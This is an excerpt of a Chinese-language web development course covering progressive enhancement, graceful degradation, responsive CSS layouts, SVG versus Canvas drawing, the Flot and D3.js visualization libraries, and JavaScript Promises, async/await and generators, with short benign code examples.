渐进式增强的理念不仅仅可以对不同设备的访问带来普适性，对低端设备的访问更为友好，它还有一些其它优势。比如说，立足于网页基础的 HTML，可以让网页对于搜索引擎更加友好，因为 CSS 样式和 JavaScript 行为不一定能被搜索引擎解释执行并收录。

在这个过程中，HTML 的语义化变得越来越重要。语义化，指的就是让 HTML 页面体现出内容的结构性，即让 HTML 具备自解释能力，而不是一堆冷冰冰的缺乏语义的标签。你看下面的例子：

```html
<article>
  <h1>Article Title</h1>
  <p>This is the content. Please read <em>carefully</em>.</p>
</article>
```

其中的 article 标签，就是具备语义的，表示着其中的内容是一篇文章，我们当然可以使用没有语义的 div 标签来代替，但 article 标签可以让阅读代码的人，浏览器，以及搜索引擎理解这部分的内容。h1 标签表示标题，p 标签表示段落，而其中的 em 标签表示的是需要强调（如果想使用无语义的标签，可以使用斜体标签 i 来代替），这些用在这里都是具备恰当语义的。

**和渐进式增强一起谈论的，还有一个相反过程的设计理念，叫做优雅降级，Graceful Degradation，本质上它们说的是一个事儿。**

优雅降级指的是，当高级特性和增强内容无法在用户的设备上展现的时候，依然能够给用户提供一个具备基本功能的，可以工作的应用版本。值得注意的是，优雅降级并非一定发生在用户设备的能力不匹配时，还有可能发生在服务器端资源出现瓶颈的时候，比如某些访问量特别大或者系统出现问题的时刻，资源紧张，服务端可以关闭某一些次要功能，降低一些用户体验，用几种核心资源来保证基础功能的正常运行。

关于渐进增强和优雅降级，我来举一个 Amazon 网站设计的例子，希望它能帮助你进一步理解。如果你使用先进的 Web 浏览器访问 amazon.com，你会看到完整的功能：


点击左上角三横线的菜单图标，你将能看到利用 JavaScript 做出的弹出层的效果：


现在，我们点击 Chrome 地址栏的锁图标，点击 Site Settings，在设置中关闭对网站的 JavaScript 支持，刷新页面，显示还差不多。但是如果点击左上角的菜单图标，你就会发现，由于没有了 JavaScript，无法使用弹出层效果，它变成了一个链接，跳转到了商品分类：


你看，虽然没有了 JavaScript，遵循这种设计理念，在损失一部分用户体验的情况下 ，你可以继续使用网站，并且可以继续购物，其中的核心功能并没有丢失。

此外，还有一种可以拿来类比的设计理念，叫做**回归增强**，Regressive Enhancement。它要求为系统的特性设定基线，并应用到较老的设备和浏览器中。于是在设计网页特性时，我们可以按照高级设备的能力来进行，但是在实际开发的实施过程中，对于较低级的设备，提供一些其它的替代方法，让它们也模拟支持这些新特性。

比方说，HTML 5 的一些特性在偏老的 IE 浏览器中不支持，那么就可以使用 JavaScript 等替代方案实现出相似的效果。我们提到过的类库 jQuery 就遵循着回归增强的设计理念，在一定程度上屏蔽了不同浏览器的差异性。

举个实际例子，input 标签如果在偏老的浏览器中不支持 placeholder 属性，我们可以利用灰度字体的样式在 input 标签中显示实际内容来模拟这个功能。当用户将输入焦点移到 input 标签中，再将其从 input 中清空，以便用户能输入实际内容。

无论是渐进式增强、优雅降级，还是回归增强，都是为了在一定程度上照顾更多的不同能力的设备和浏览器，给用户带来“尽量好”的体验。但是我们在应用这样的设计理念时，需要把握这个度，毕竟，它不是无代价的，而是会增加前端设计开发的复杂性。

## 3. 响应式布局

响应式网页设计，即 RWD，Responsive Web Design，也有称之为**自适应性网页设计**，Adaptive Web Design，是一种网页设计方法，**目的是使得同一份网页，在不同的设备上有合适的展现**。几乎页面上所有的元素都可以遵循响应式布局，在不同的设备上产生不同的呈现，包括字体和图像等，但是我们讨论得最多的，却是布局。

我记得我刚参加工作的那几年，我们对于同一个页面在不同设备上的展示，考虑的最多的问题还是终端适配，并且这种适配还是基于协议的。例如，服务端是返回 Web 页面，WAP 1.0 页面（WML 语言描述），还是 WAP 2.0 页面（XHTML 语言描述）？那时候我们还很难去谈论用户体验有多么“合适”，对于这些低端的移动设备，我们充其量只能关心功能的实现是否能保证。

这部分，我们改变一下学习策略，来动动手，实现下简单的响应式布局页面。假如说我们需要实现一个具有 header、footer 的页面，并且他们需要填满宽度。而中间的主页面部分采用三列布局，左边列定宽，右边列也定宽，中间列宽度自由设置，但是要保证这三列排列起来也填满浏览器的宽度。

在往下阅读之前，你能否先想想，这该如何实现？

现在，我们在任意的工作文件夹下建立一个 responsive layout.html 文件，填写如下内容：

```html
<!DOCTYPE html>
<html>
<head>
  <link href="style.css" type="text/css" rel="stylesheet">
</head>
<body>
  <header>header</header>
  <aside class="left">aside</aside>
  <aside class="right">aside</aside>
  <main class="middle">main</main>
  <footer>footer</footer>
</body>
</html>
```

你看，这个文件结构是很简单的，但是具备了我们所需要的要素，包括 header、中间三列以及 footer。这个页面将引入 style.css，因此，我们在同一目录下，建立 style.css：

```css
* {
  height: 100px;
  margin: 10px;
}
header, footer {
  background-color: YELLOW;
}
main {
  background-color: BLUE;
}
aside {
  background-color: GREEN;
}

.left {
  width: 200px;
  float: left;
}
.middle {
  margin: 20px 230px 20px 230px;
}
.right {
  width: 200px;
  float: right;
}
```

我来简单解读一下这个 CSS 文件。为了演示效果，所有的 DOM 对象都具备 100px 的高度，左边栏向左侧浮动排列，右边栏向右侧浮动排列，中间一列使用 margin 的方式给左右边栏留足位置。在排列这三列时，DOM 的顺序是左边栏 - 右边栏 - 中间栏，原因是，左右边栏是浮动样式，需要给他们排好以后，中间栏位无浮动，自动填满所有剩余空间。

看看效果吧，你可以拖动浏览器的边界，调整窗口的宽度，来模拟不同宽度的浏览器窗口下的效果。在较宽的浏览器下，它是这样的：


而在较窄的浏览器下，它是这样的：


注意这里的图片有缩放，但是每个矩形的高度实际上都是 100px。也就是说，中间蓝色的区域可以根据实际的宽度需要进行自适应的横向缩放，但是布局始终保持填满浏览器的宽度，也就是说，绿色的部分，始终是固定不变的。

但是，这样的显示有一个问题，在屏幕宽度较小时，比如手机屏幕，中间的蓝色区域会被挤得看不见。因此，我们希望在浏览器宽度小到一定程度的时候，显示成多行格式，而不进行左中右栏位的划分了，即从上到下包含 5 行：header、left aside、main、right aside 和 footer。

其实也不难，我们需要先在 HTML 的头部增加：

```html
<meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no">
```

这个 meta 标签指定了视口（View Port）的宽度为设备宽度，避免了任何手机端自动缩放的可能，同时也关闭了用户手动缩放的功能，这样网页会更像一个原生 app。

接着，需要把现有的 css 中 .left, .right, .middle 三个样式放到屏幕宽度大于 640px 的条件下启用，而在宽度小于 640px 的条件下，我们将启用另外三组样式，这三组是将现有的三列以行的方式来展示：

```css
@media screen and (min-width: 640px) {
  .left {
    width: 200px;
    float: left;
  }
  .middle {
    margin: 20px 230px 20px 230px;
  }
  .right {
    width: 200px;
    float: right;
  }
}

@media screen and (max-width: 640px) {
  .middle {
    margin: auto;
  }
  .left, .right {
    width: auto;
    float: none;
  }
}
```

完工，我们一起看看效果。调整浏览器的右侧边界，逐渐缩小宽度，直到其低于 640px，你将看到如下效果：


<h1 id="chapter18">18 | 千言万语不及一幅画：谈谈数据可视化</h1>

随着大数据和数据分析趋势的流行，数据可视化变得越来越重要，而许多全栈的学习材料并没有跟上节奏，去介绍这方面的技术。这一讲中，我们将介绍数据可视化的基本概念和原理，以及几个常用的 JavaScript 用来实现数据可视化的库。

数据可视化，即 Data Visualization，是指使用具备视觉表现力的图形和表格等工具，向用户传达数据信息的方式。在我工作过的每个大型团队中，数据可视化技术都有着其不可替代的用武之地。

在大数据分析团队，数据库可视化技术被用来分析数据变化，验证机器学习算法的效果；在高可用服务团队，数据可视化技术被用来了解和监视服务的运行状况，了解系统的压力和负载；在分布式平台团队，数据可视化技术用来俯瞰一个个异步任务的执行情况，以获知任务执行的健康状况……事实上，只要有工程的地方，数据可视化就扮演着举足轻重的角色。

## Web 绘图标准

在前端绘图，是数据可视化里面很常见的一个需求，我们常见的有位图和矢量图这样两种。

通常我们谈论的图片，绝大多数都是位图。位图又叫栅格图像，**无论位图采用何种压缩算法，它本质就是点阵**，它对于图像本身更具备普适性，无论图像的形状如何，都可以很容易分解为一个二维的点阵，更大的图，或者更高的分辨率，只是需要更密集的点阵而已。

你可能已经听说过矢量图。**矢量图是使用点、线段或者多边形等基于数学方程的几何形状来表示的图像**。将一个复杂图像使用矢量的方式来表达，显然要比位图困难得多，但是矢量图可以无损放大，因为它的本质是一组基于数学方程的几何形状的集合，因此无论放大多少倍，形状都不会发生失真或扭曲。并且图像越大，就越能比相应的位图节约空间，因为矢量图的大小和实际图像大小无关。倘若再采用独立的压缩算法进行压缩，矢量图可以基于文本压缩，从而获得很大的压缩比。

在早些年的项目中，在后端使用 Python 等语言预生成绘制图像的场景还比较多，但是如今已经少见一些了，大多数的图形生成都被搬到了前端。而这种情况也成为了前后端分离，以及数据和展示分离的典型场景，后端同步或异步生成不同维度的数据，浏览器则通过统一的 API 根据用户需求获取相应的数据；前端根据这些取得的数据在浏览器中现场绘制图像。关于服务端和客户端聚合的知识，如有遗忘，请回看 [第 09 讲]。

总的来看，前端绘图，和后端比起来，有这样几个显著的优势。

- **前端生成的图形图像具有天然的交互性**。前端生成的图像不仅仅意味着一张“图”，还意味着它能够和 HTML 这样的呈现结构紧密地结合起来，而图像上的组成部分都可以响应用户的行为。

- **图像的生成可能需要显著的资源消耗，放到前端可以减轻服务器压力**。这里的消耗既包括 CPU、内存等物理资源消耗，还有用户的等待时间消耗，在前端可以更好地给用户提供渲染过程的反馈。

- **图形图像的设计和规划本就属于呈现层，系统架构上把它放到前端更容易实现前后端分离，组织结构上能让擅长视觉处理的前端工程师和 UX 设计师更自然地工作**。有了数据，就可以对前端的图像生成逻辑进行设计和测试，工程师和设计师只需要专注于前端的通用技能就可以较为独立地完成工作。

我们较常听到的 Web 绘图标准包括 VML、SVG 和 Canvas，其中 VML 是微软最初参与制定的标准，一直以来只有 IE 等少数浏览器支持，从 2012 年的 IE 10 开始它逐渐被废弃了；但是剩余两个，SVG 和 Canvas 有一定互补性，且如今都非常流行，下面我来介绍一下。

## 1. SVG

SVG 即 Scalable Vector Graphics，可缩放矢量图形。它是基于可扩展标记语言（XML），用于描述二维矢量图形的一种图形格式。在它之前，微软曾经向 W3C 交过 VML 的提议，但被拒绝了。之后才有了 SVG，由 W3C 制定，是一个开放标准，当时在 W3C 自己看来，SVG 的竞争对手应该主要是 Flash。

SVG 格式和前面提到的 VML 一样，支持脚本，容易被搜索引擎索引。SVG 可以嵌入外部对象，比如文字、PNG、JPG，也可以嵌入外部的 SVG。它在移动设备上存在两个子版本，分别叫做 SVG Basic 和 SVG Tiny。SVG 很快获得了各种浏览器的支持，一开始 IE 还坚守着自家的 VML 不放，但后来也慢慢被迫转移到了 SVG 的阵营，从 IE 9 才开始对 SVG 部分支持。

SVG 支持三种格式的图形：矢量图形、栅格图像和文本。所以你看，**SVG 并不只是一个矢量图的简单表示规范，而是尝试把矢量图、位图和文字统一起来的标准**。我们来亲自写一个 SVG 的小例子，在你的工作文件夹中建立 example.svg，并用文本编辑器打开，录入如下文字：

```html
<?xml version="1.0" encoding="UTF-8"?>
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="300" height="300">
  <rect x="60" y="60" width="200" height="200" fill="red" stroke="black" stroke-width="2px" />
</svg>
```

我来对上述 XML 做个简单的解释：第一行了指明 XML 的版本和编码；第二行是一个 svg 的根节点，指明了协议和版本号，图像画布的大小（500 x 500），其中只包含一个矩形（rect），这个矩形的起始位置是（x, y），宽和高都为 200，填充红色，并使用 2px 宽的黑色线条来描边。

接着使用 Chrome 来打开这个文件，你将看到这样的效果：


接着我们另建立一个 HTML 文件：svg.html，加上 html 标签，并拷贝 XML 中的 svg 标签到这个 HTML 文件中：

```html
<!DOCTYPE html>
<html>
<body>
  <svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="300" height="300">
    <rect x="60" y="60" width="200" height="200" fill="red" stroke="black" stroke-width="2px" />
  </svg>
</body>
</html>
```

用 Chrome 打开看看效果——嗯，再次展示了这个红色方块。反复点击 Chrome 的 View 菜单下的 Zoom In 选项，将图像放到最大，观察矩形的边角，没有任何模糊和失真，这证明了它确实是矢量图。


最后打开 Chrome 的开发者工具，在控制台键入：

```js
$("svg>rect").setAttribute("fill", "green");
```

你会看到这个矢量图从红色变成了绿色。这充分说明，svg 就是普普通通的 HTML 标签，它可以响应 JavaScript 的控制。自此，图像对于天天和 HTML 打交道的程序员来说，再也不是一个“二进制黑盒”了。

## 2. Canvas

Canvas 标签是 HTML 5 的标签之一，标签可以定义一片区域，允许 JavaScript 动态渲染图像。开始由苹果推出，自家的 Safari 率先支持，IE 从 IE 9 开始支持。

Canvas 和 SVG 有相当程度的互补之处，我们来实现一个 Canvas 的例子，体会下这一点。请在任何工作文件夹中，建立 canvas.html，并写入：

```html
<!DOCTYPE html>
<html>
<body>
  <canvas width="300" height="300"></canvas>
  <script type="text/javascript">
    var canvas = document.getElementsByTagName('canvas')[0];
    var ctx = canvas.getContext('2d');
    ctx.rect(60,60,200,200);
    
    ctx.fillStyle = 'RED';
    ctx.fill();

    ctx.strokeStyle = 'BLACK';
    ctx.stroke();
  </script>
</body>
</html>
```

代码很容易理解，获取到 canvas 节点以后，获取一个 2D 上下文，接着设置好矩形的位置和大小，分别进行填充和描线的操作。接着使用 Chrome 打开，你会发现效果和 SVG 的例子一样，展示了这个具备黑色边框的红色方块。


看起来和 SVG 差不多对不对？我们也来执行相同的操作，反复点击 Chrome 的 View 菜单下的 Zoom In 选项，将图像放到最大：


你看，矩形的边角不再清晰，这说明这种方式绘制的不是矢量图，而是位图。再使用 Chrome 的开发者工具，点击左上角的 DOM 选择箭头，选中这个矩形，我们发现，和 SVG 不同的是，这个 canvas 节点内部并没有任何 DOM 结构。


虽然这是一个小小的例子，但足以看出 Canvas 和 SVG 之间的明显差异和互补性了。

总的来说，从图片描述过程上来说，SVG 是 HTML 标签原生支持的，因此就可以使用这种**声明式的语言**来描述图片，它更加直观、形象、具体，每一个图形组成的 DOM 都可以很方便地绑定和用户交互的事件。**这种在渲染技术上通过提供一套完整的图像绘制模型来实现的方式叫做 Retained Mode。**

Canvas 则是藉由 JavaScript 的**命令式的语言**对既定 API 的调用，来完成图像的绘制，canvas 标签的内部，并没有任何 DOM 结构，这让它无法使用传统的 DOM 对象绑定的方式来和图像内部的元素进行互动，但它更直接、可编程性强，在浏览器内存中不需要为了图形维护一棵巨大的 DOM 树，这也让它在遇到大量的密集对象时，拥有更高的渲染性能。这种在渲染技术上通过直接调用图形对象的绘制命令接口来实现的方式叫做 Immediate Mode。

讲到这里，不知道你是否联想到了我们之前反复提到过的，声明式编程和命令式编程在全栈技术中的应用，如果你忘记了，可以回看 [第 07 讲] 中的介绍。所以，我想再次说，技术都是相通的。


我们从这些例子中可以看出来，无论选用哪一种技术，HTML 5 的出现，都给了浏览器底气。以往由于其自身能力的限制，浏览器的很多领土都被播放器控件、Flash 等蚕食了，HTML 5 正助其将领土重新夺回来（你可能已经听说了，Chrome 已经开始用提示条警告：从 2020 年 12 月起 Chrome 将不再支持 Flash）。

使用这种方式，以往浏览器内的这些插件和扩展的“黑盒”全部通过原生的 HTML 标签完成替换支持，少了一个软件“层”，多了一分透明，视频、音频等媒体由浏览器底层直接支持，性能会更加出色，交互性更好。

## 数据可视化的 JavaScript 库

数据可视化的 JavaScript 库有很多，我想它们可以简单分为两类：绝大多数都比较专精，完成某一类的图表绘制工作，比如 Flot；但是也有一些相对通用而强大，比如 D3.js。

## 1. Flot

Flot 是一个非常简单的图表绘制的 jQuery 插件，这样类似的库有很多，它们绝大多数包含这样两个特点：

- 在使用上都包含 DOM 选择、选项设置、数据绑定、行为绑定等几个常见步骤，简单、直接，没有特定的领域语言，也没有复杂的模式套用；

- 它们往往针对性解决特定的、狭窄领域的问题，比如就是用来绘制二维坐标图，或者就是用来生成二维表格。

我们拿 Flot 举例，来感受一下这两个特点，比如下面这个例子，绘制一条正弦曲线，代码非常得简洁。

```html
<div id="plot"></div>
```

接着在 JavaScript 中，写入如下代码：

```js
let data = $.map([...Array(1000).keys()],
                 (x, i) => [[i, Math.sin(x/100)]]);
$.plot("#plot", [{ data }], {
  xaxis: { ticks: [
    0,
    [ 100 * Math.PI, "Pi" ],
    [ 200 * Math.PI, "2Pi" ],
    [ 300 * Math.PI, "3Pi" ]
  ]}
});
```

按照前面说的常见步骤，我来简单解释一下。

- DOM 选择：“#plot”是 jQuery 的选择器，取得了 id 为 plot 的 DOM；
- 数据绑定：从 0 到 1000 的数中，给每一个数除以 100，再取它的正弦，将结果和数的序号捆绑起来放到入参 data 中；
- 行为绑定：这里没有显示绑定行为，有一些默认的响应行为由库实现；
- 选项设置：后面跟着的参数，其中包含 xaxis 用于设置 x 轴的坐标显示。

通过这样简单的代码，就可以得到如下效果：


如果你考察生成的对象，你会发现它是使用 Canvas 来绘制的。

## 2. D3.js

第二类可视化 JavaScript 库相对较为通用。D3.js 是一个基于数据的操作文档的 JavaScript 库，可以让你绑定任何数据到 DOM，支持 DIV 这类常规 DOM 进行的图案生成，也支持 SVG 这种图案的生成。D3 帮助你屏蔽了浏览器差异，并且**通过基于容器和数据匹配状态变更的解耦设计，这种方式对于绘制某些动态变化的、画布元素根据数据按照一定规则变动的图像，代码会非常得清晰简洁。**

这种方法就是 “Enter and Exit” 机制，下面我们来着重理解一下它。

这种机制建立在容器节点和数据映射的关系上，即“一个萝卜一个坑”，数据项就是萝卜，容器节点就是坑。在数据变动的过程中，通过每个节点位置和每个数据项的匹配，发生如下三种行为之一：

- 如果数据项能够找到它所属的节点，发生 update 事件；
- 如果数据项更多，节点数量不够，对于无法找到节点的数据项，发生 enter 事件；
- 如果数据项减少，即原有的数据项离开了节点，发生 exit 事件。


下面，我们还是让代码说话，用一个简单的小例子，来展示这个过程。HTML 中有这样一个 DOM，作为画布，准备用 D3.js 在上面作画：

```html
<svg></svg>
```

定义一个作画方法 render，任何时候我们希望针对改变的数据，重新更新画布，只需要调用下面定义的 render 方法：

```js
let render = (data) => {
  // 选择节点
  var circles = d3
    .select('svg')
    .selectAll('circle');

  // 默认行为，对应于 update
  circles.data(data)
    .attr('r', 20)
    .attr('cx', (d, i) => { return i * 50 + 20; })
    .attr('cy', (d, i) => { return 20; })
    .style('fill', 'BLUE')
  
  // 新 data 加入，对应于 enter
  circles.data(data)
    .enter()
      .append('circle')
      .attr('r', 20)
      .attr('cx', (d, i) => { return i * 50 + 20; })
      .attr('cy', (d, i) => { return 20; })
      .style('opacity', 0)
      .style('fill', 'RED')
      .transition()
        .duration(1000)
        .style('opacity', 1)
  
  // 旧 data 离开，对应于 exit
  circles.data(data)
    .exit()
      .transition()
        .duration(1000)
        .style('opacity',0)
        .remove();
};
```

你看，render 方法包含了这样几步：

- 首先，选择节点，即“萝卜坑”，在最开始的时候，一个坑也没有，即 svg 节点内没有任何 circle 节点；
- 第二步，定义了默认的 update 行为，在数据项，即萝卜保持占据萝卜坑的时候，进行的操作，在这里就是绘制蓝色的坑；
- 第三步，定义 enter 行为，即对于新来的萝卜，无法找到相应萝卜坑的时候，进行的操作，例子中就是建立新的红色的坑；
- 第四步，定义 exit 行为，当有萝卜要离开萝卜坑的时候，需要进行的操作，例子中就是删掉原有的坑。

其中链式调用中的 transition() 定义了在执行某些过程时，以过渡动画的方式来进行，例子中无论是“挖坑”还是“填坑”，都通过透明度渐变的方法来实现过渡。

最后，我们在第 0 秒的时候种下了 3 个萝卜，由于之前没有萝卜坑，于是发生了三次 enter 行为；第 2 秒的时候我们将萝卜减少到了 2 个，于是发生了一次 exit 行为；在第 4 秒的时候我们将萝卜数量变为 4 个，于是发生两次 enter 行为：

```js
render([1, 2, 3]);
setTimeout(() => { render([1, 2]); }, 2000);
setTimeout(() => { render([1, 2, 3, 4]); }, 4000);
```


不知道你是否还记得我们在 [第 16 讲] 中介绍过的 Redux，D3.js 的这种机制和 Redux 的状态管理有着相似和相通之处。**状态都在统一的地方维护，而状态的改变，都通过事件的发生和响应机制来进行，且都将事件的响应逻辑（回调）交给用户来完成**。其实，这是一种很常见的“套路”，我们在后面的学习中，还将见到它的实现。

<h1 id="chapter19">19 | 打开潘多拉盒子：JavaScript异步编程</h1>

## 1. 用 Promise 优化嵌套回调

假如我们需要写这样一段代码，来模拟一只小狗向前奔跑，它一共跑了 3 次，奔跑的距离分别为 1、2、3，每次奔跑都要花费 1 秒钟时间：

```js
setTimeout(
  () => {
    console.log(1);
    setTimeout(
      () => {
        console.log(2);
        setTimeout(
          () => {
            console.log(3);
          },
          1000
        );
      },
      1000
    );
  },
  1000
);
```

你看，我们用了 3 次 setTimeout，每次都接受两个参数，第一个参数是一个函数，用以打印当前跑的距离，以及递归调用奔跑逻辑，第二个参数用于模拟奔跑耗时 1000 毫秒。这个问题其实代表了实际编程中一类很常见的 JavaScript 异步编程问题。例如，使用 Ajax 方式异步获取一个请求，在得到返回的结果后，再执行另一个 Ajax 操作。

但是，这个代码似乎不太“好看”啊，繁琐而且冗长，易理解性和可维护性显然不过关，代码的状态量在这种情况下很难预测和维护。就如同同步编程世界中常见的“面条代码（Spaghetti Code）”一样，这样“坏味道”的代码在异步编程的世界中其实也很常见，且也有个专有称呼——“金字塔厄运”（Pyramid of Doom，嵌套结构就像金字塔一样）。

**Promise，就如同字面意思“承诺”一样，定义在当前，但行为发生于未来**。它的构造方法中接受一个函数（如果你对这种将函数作为参数的方式传入还不习惯，请回看 [第 15 讲] 对函数成为一等公民的介绍），并且这个函数接受 resolve 和 reject 两个参数，前者在未来的执行成功时会被调用，后者在未来的执行失败时会被调用。

```js
var run = steps => 
  () => 
    new Promise((resolve, reject) => {
      setTimeout(
        () => {
          console.log(steps);
          resolve(); // 一秒后的未来执行成功，需要调用
        },
        1000
      );
    });

Promise.resolve()
  .then(run(1))
  .then(run(2))
  .then(run(3));
```

正如代码所示，这一次我们让 run() 方法返回一个函数，这个函数执行的时候会返回一个 Promise 对象。这样，这个 Promise 对象，并不是在程序一开始就初始化的，而是在未来的某一时刻，前一步操作完成之后才会得到执行，这一点非常关键，并且这是一种**通过给原始代码添加函数包装的方式实现了这里的“定义、传递、但不执行”的要求。**

这样做就是把实际的执行逻辑使用一个临时函数包装起来再传递出去，以达到延迟对该逻辑求值的目的，这种方式有一个专有名字 Thunk，它是一种在 JavaScript 异步编程的世界中很常见的手段（JavaScript 中有时 Thunk 特指用这种技术来将多参数函数包装成单参数函数，这种情况我们在此不讨论）。换言之，上面代码例子中的第二行，绝不可省略，一些刚开始学写异步编程的程序员朋友，就很容易犯这个错误。

现在，使用 run() 方法的代码调用已经格外地简单而清晰了。在 Promise 的帮助下，通过这种方式，用了几个 then 方法，实现了逻辑在前一步成功后的依次执行。于是，**嵌套的金字塔厄运消失了，变成了直观的链式调用**，这是异步编程中一个非常常见的优化。

如果我们乘胜追击，进一步考虑，上面那个 run() 方法明显不够直观，能不能以某种方式优化调整一下？

能！代码看起来复杂的原因是引入了 setTimeout，而我们使用 setTimeout 只是为了“等一下”，来模拟小狗奔跑的过程。这个“等一下”的行为，实际是有普遍意义的。在 JavaScript 这样的非阻塞代码中，不可能通过代码的方式让代码实际执行的时候真的“等一下”，但是，我们却可以使用异步的方式让代码看起来像是执行了一个“等一下”的操作。我们定义：

```js
var wait = ms =>
  new Promise(resolve => setTimeout(resolve, ms));
```

有了 wait 的铺垫，我们把原本奔跑的 setTimeout 使用更为直观的 wait 函数来替换，一下子就让 run 的实现清晰了很多：

```js
var run = steps => 
  () => wait(1000).then(() => { console.log(steps); });
```

你看，这个例子，再加上前面的 then 调用链的例子，你是否看出，**利用 Promise，我们似乎神奇地把“异步”代码变成“同步”的了**。其实，代码执行并没有真正地变成同步，但是代码却“看起来”像是同步代码，而同步和顺序执行的逻辑对于人的大脑更为友好。

经过这样的重构以后，再次执行刚才的 3 次奔跑调用，我们得到了一样的结果。

```js
Promise.resolve()
  .then(run(1))
  .then(run(2))
  .then(run(3));
```

嗯，看起来我们已经做到极致了，代码也已经很清楚了，大概没有办法再改写和优化了吧？不！其实我们还有继续操作的办法。也许我应该说，居然还有。

在 ES7 中，async/await 的语法糖被引入。通过它，我们可以进一步优化代码的写法，让异步编程越来越像同步编程，也越来越接近人大脑自然的思维。

- async 用于标记当前的函数为异步函数；
- await 用于表示它的后面要返回一个 Promise 对象，在这个 Promise 对象得到异步结果以后，再继续往下执行。

考虑一下上面的 run 方法，现在我们可以把它改写成 async/await 的形式：

```js
var run = async steps => {
  await wait(1000);
  console.log(steps);
}
```

你看，代码看起来就和同步的没有本质区别了，等待 1000 毫秒以后，打印 steps。

接着，如果我们执行下面的代码（如果你不是在 Chrome 的控制台执行，你可以把下面三行代码放到任意一个 async 函数中去执行，效果是一样的）：

```js
await run(1);
await run(2);
await run(3);
```

我们得到了一样的结果。这段代码看起来也和顺序、同步执行的代码没有区别了，虽然，实际的运行依然是前面你看到的异步调用，这里的效果只是 async/await 语法糖为程序员创造的一个美好的假象。

纵观这个小狗奔跑的问题，我们一步一步把晦涩难懂的嵌套回调代码，优化成了易读、易理解的“假同步”代码。聪明的程序员总在努力地创造各种工具，去**改善代码异步调用的表达能力，但是越是深入，就越能发现，最自然的表达，似乎来自于纯粹的同步代码。**

## 2. 用生成器来实现协程

**协程，Coroutine，简单说就是一种通用的协作式多任务的子程序，它通过任务执行的挂起与恢复，来实现任务之间的切换。**

这里提到的“协作式”，是一种多任务处理的模式，它和“抢占式”相对。如果是协作式，每个任务处理的逻辑必须主动放弃执行权（挂起），将继续执行的资源让出来给别的任务，直到重新获得继续执行的机会（恢复）；而抢占式则完全将任务调度交由第三方，比如操作系统，它可以直接剥夺当前执行任务的资源，分配给其它任务。

我们知道，创建线程的开销比进程小，而协程通常完全是在同一个线程内完成的，连线程切换的代价都免去了，因此它在资源开销方面更有优势。

JavaScript 的协程是通过生成器来实现的，执行的主流程在生成器中可以以 yield 为界，进行协作式的挂起和恢复操作，从而在外部函数和生成器内部逻辑之间跳转，而 JavaScript 引擎会负责管理上下文的切换。

首先我们来认识一下 JavaScript 和迭代有关的两个协议，它们是我们后面学习生成器的基础：

- 第一个是可迭代协议，它允许定义对象自己的迭代行为，比如哪些属性方法是可以被 for 循环遍历到的；
- 第二个是迭代器协议，它定义了一种标准的方法来依次产生序列的下一个值（next() 方法），如果序列是有限长的，并且在所有的值都产生后，将有一个默认的返回值。

接着我就可以介绍生成器（Generator）了。在 JavaScript 中，生成器对象是由生成器函数 function* 返回，且符合“可迭代协议”和“迭代器协议”两者。function* 和 yield 关键字通常一起使用，yield 用来在生成器的 next() 方法执行时，标识生成器执行中断的位置，并将 yield 右侧表达式的值返回。见下面这个简单的例子：

```js
function* IdGenerator() {
  let index = 1;
  while (true)
    yield index++;
}

var idGenerator = IdGenerator();

console.log(idGenerator.next());
console.log(idGenerator.next());
```

这是一个 id 顺序生成的生成器，初始 index 为 1，每次调用 next() 来获取序列的下一个数值，并且 index 会自增 1。从代码中我们可以看到，这是一个无限的序列。

执行上述代码，我们将得到：

```json
{value: 1, done: false}
{value: 2, done: false}
```

每次返回的对象里面，value 的值就是生成的 id，而 done 的值表示这个序列是否结束。

你看，以往我们说起遍历的时候，脑海里总会第一时间想起某个容器，某个数据集合，但是，有了生成器以后，我们就可以对更为复杂的逻辑进行迭代。

生成器可不是只能往外返回，还能往里传值。具体说，yield 右侧的表达式会返回，但是在调用 next() 方法时，入参会被替代掉 yield 及右侧的表达式而参与代码运算。我们将上面的例子小小地改动一下：

```js
function* IdGenerator() {
  let index = 1, factor = 1;
  while (true) {
    factor = yield index; // 位置①
    index = yield factor * index; // 位置②
  }
}
```

好，这是生成器的定义，其调用代码如下：

```js
var calculate = (idGenerator) => {
  console.log(idGenerator.next());
  console.log(idGenerator.next(1));
  console.log(idGenerator.next(2));
  console.log(idGenerator.next(3));
};

calculate(IdGenerator());
```

好，我来解释一下整个过程。现在这个 id 生成器每个循环节可以通过 yield 返回两次，我把上述执行步骤解释一下（为了便于说明代码位置，在生成器代码中我标记了“位置①”和“位置②”，请对应起来查看）：

- 调用 next()，位置①的 yield 右侧的 index 返回，因此值为 1；
- 调用 next(1)，实参为 1，它被赋值给位置①的 factor，参与位置②的 yield 右侧的表达式计算，得到 1；
- 调用 next(2)，实参为 2，它被赋值给位置②的 index，由于 while 循环的关系，位置①的 yield 右侧的 index 返回，因此得到 2；
- 调用 next(3)，实参为 3，它被赋值给位置①的 factor，参与位置②的 yield 右侧的表达式计算，3 * 2 得到 6。

使用图来表示，就是这样子：


从图中你应该可以理解，通过生成器来实现 JavaScript 协程的原理了。本质上来说，**生成器将一个完整的方法执行通过 yield 拆分成了多个部分，并且每个部分都可以有输入输出，整个过程就是一个简单的状态机**。它和其它函数一起，以反复挂起和恢复的方式一段一段地将任务完成。

最后，结果输出如下：

```js
{value: 1, done: false}
{value: 1, done: false}
{value: 2, done: false}
{value: 6, done: false}
```

## 3. 异步错误处理

错误处理是所有编程范型都必须要考虑的问题，在使用 JavaScript 进行异步编程时，也不例外。你可能会有这样一个疑问，如果我们不做特殊处理，会怎样呢？且看下面的代码，我先定义一个必定会失败的方法：

```js
var fail = () => {
  setTimeout(() => {
    throw new Error("fail");
  }, 1000);
};
```

然后调用一下：

```js
console.log(1);
try {
  fail();
} catch (e) {
  console.log("captured");
}
console.log(2);
```

在 Chrome 开发者工具的控制台中执行一下，我们将看到 1 和 2 的输出，并在 1 秒钟之后，获得一个“Uncaught Error”的错误打印，注意观察这个错误的堆栈：

```
Uncaught Error: fail
    at <anonymous>:3:11
    at e (lizard-service-vendor.2b011077.js:1)
  (anonymous)  @  VM261:3
  e  @  lizard-service-vendor.2b011077.js:1
  setTimeout (async)    
  (anonymous)  @  lizard-service-vendor.2b011077.js:1
  fail  @  VM261:2
  (anonymous)  @  VM296:3
```

